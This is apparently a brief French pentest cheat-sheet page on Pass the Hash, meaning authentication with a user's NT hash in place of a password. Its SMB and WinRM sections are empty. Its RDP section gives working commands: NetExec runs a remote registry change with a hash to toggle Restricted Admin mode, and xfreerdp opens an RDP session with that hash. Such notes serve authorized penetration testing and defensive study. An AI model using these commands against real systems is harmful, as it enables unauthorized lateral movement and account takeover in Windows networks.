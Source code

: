 # Pass the Hash

Permet de se connecter avec le hash de l'utilisateur / compte machine plutôt que son mot de passe.

## SMB

## WinRM

## RDP

```bash
# https://medium.com/@jakemcgreevy/pass-the-hash-pth-with-rdp-80595fb38bef
nxc smb 192.168.0.1 -u "username" -H "NT_HASH" -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f' # autorise
nxc smb 192.168.0.1 -u "username" -H "NT_HASH" -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x1 /f' # désactive
xfreerdp /v:192.168.0.1 /u:username /pth:<NT_HASH>
```

https://www.thehacker.recipes/ad/movement/ntlm/pth

